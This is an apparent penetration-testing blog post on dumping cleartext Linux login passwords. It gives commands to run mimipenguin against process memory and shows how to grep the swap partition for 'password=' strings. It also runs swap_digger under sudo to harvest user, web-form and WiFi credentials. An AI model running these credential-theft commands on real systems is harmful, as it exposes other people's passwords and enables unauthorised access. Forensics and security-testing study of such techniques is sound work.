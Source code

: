 ```yaml
---
title:  "Dump Login Passwords From Current Linux Users"
classes: wide
header:
  teaser: /img/linux.jpg
ribbon: MidnightBlue
categories:
  - Penetration Testing 
toc: true
---
```



Dump Login Passwords From Current Linux Users

## mimipenguin 
MimiPenguin works similarly to the well-known "mimikatz" for Windows, but is designed for Linux and attempts to dump cleartext credentials from memory from the following applications

* Apache2 (Active HTTP Basic Auth Sessions)
* OpenSSH (Active SSH Sessions - Sudo Usage)
* GDM password (Kali Desktop, Debian Desktop)
* Gnome Keyring (Ubuntu Desktop, ArchLinux Desktop)
* VSFTPd (Active FTP Connections)


Takes advantage of cleartext credentials in memory by dumping the process and extracting lines that have a high probability of containing cleartext passwords. Will attempt to calculate each word's probability by checking hashes in /etc/shadow, hashes in memory, and regex searches 




## install mimipenguin

```
git clone https://github.com/huntergregal/mimipenguin
cd mimipenguin/
./mimipenguin.sh 
```

 <img src="/img/88.png" alt="Getting-gz" width="800" height="150"> 



## dumping credentials from memory

we can also dump sensitive information from the swap file.
As everything is a "file" in linux, so is swap space, and we can use that to our advantage using built-in tools. 

The partition or “file” defined as the swap file can be found with the following commands:

`swapon -s`

 <img src="/img/0d.PNG" alt="Getting-gz" width="800" height="150"> 


we can see that our swap partition is at /dev/sda5

We can obtain the exact same information by issuing the “cat”
command to the “/proc/swaps” file:

`cat /proc/swaps`

 <img src="/img/1d.PNG" alt="Getting-gz" width="800" height="150"> 



We can use the strings command against the /dev/sda5 

`strings /dev/sda5 |grep "password=" `


## swap_digger.sh

swap_digger is a bash script used to automate Linux swap analysis for post-exploitation or forensics purpose. It automates swap extraction and searches for Linux user credentials, Web form credentials, Web form emails, HTTP basic authentication, WiFi SSID and keys, etc.

```
git clone https://github.com/sevagas/swap_digger.git
cd swap_digger
chmod +x swap_digger.sh
sudo ./swap_digger.sh -vx
```

